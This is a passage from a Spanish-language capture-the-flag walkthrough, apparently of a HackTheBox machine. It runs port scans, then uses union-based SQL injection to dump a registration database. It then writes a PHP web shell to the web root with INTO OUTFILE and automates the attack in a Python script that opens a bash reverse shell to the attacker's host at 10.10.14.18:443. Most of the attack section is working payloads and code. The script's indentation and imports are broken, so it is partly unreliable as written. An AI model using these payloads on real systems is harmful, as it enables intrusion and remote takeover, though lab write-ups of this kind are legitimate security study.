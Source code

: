 ## Reconocimiento

`nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.116 -oG allPorts`

`nmap -p 22,80,4566,8080 -sCV -vvv 10.10.11.116 -oN targeted`

```
22/ssh
80/http
4566/http
8080/http
```

Navegamos al puerto 80.
Probando a introducir valores vemos que es vulnerable a HTMLinjection, También a Inyecciones XSS

Interceptamos la petición con Burpsuite, y vemos que en el campo de selección de países se puede inyectar código SQL y se ven reflejados en la web

`' union select database()-- -` Enumerar base de datos acctual `registration`

`' union select schema_name from information_schema.schemata-- -` Enumerar todas las bases de datos

`' union select table_name from information_schema.tables where table_schema="registration"-- -` Enumerar las tables de la base de datos registration.

`union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Enumerar las columnas

`' union select group_concat(username,0x3a,userhash) from registration-- -` Obtener los valores de las columnas

BBDD:
`registration`
Tables:
`registration`
Columns:
`username` `userhash` `country` `regtime`
Valores:
Se nos muestran los valores de prueba que hemos generado nosotros anteriormente, y esos no nos valen

Validaremos si somos capacidades de depositar contenido en una ruta
`' union select "probando" into outfile "/var/www/html/prueba.txt"-- -` somos capaces de poder depositar contenido en diversas rutas

Como interpreta PHP la idea es inyectara un archivo de este tipo
`' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/prueba.php"-- -`

Esto nos permite desde la URL acceder a `prueba.php` y con el parámetro `cmd` ejecutar comandos en el sistema

Una vez identificado todo esto podemos crear un script en Python que nos lo automatice:
```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
	print("\n[!] Saliendo...\n")
	sys.exit(1)

# CTRL + C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
	log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
	sys.exit(1)

# Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address
lport = 443


def createFile():
	data_post = {
	'username': 'admin',
	'country':"""Brazil' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/%s"-- -""" % (filename)
	}

r = requests.post(main_url, data=data_post)


def getAccess():
	data_post = {
	'cmd': "bash -c 'bash -i >& /dev/tcp/10.10.14.18/443 0>&1'"
	}

r = requests.post(main_url + "%s" % filename, data=data_post)

if __name__ == "__main__":

createFile()
try:
	threading.Thread(target=getAccess, args=()).start()
except Exception as e:
	log.error(str(e))
	
shell = listen(lport, timeout=30).wait_for_connection()
shell.interactive()
```

Este script nos generara una shell en nuestra propia maquina a la hora de ejecutarlo.
Una vez accedido a la maquina en el directorio en el que nos encontramos 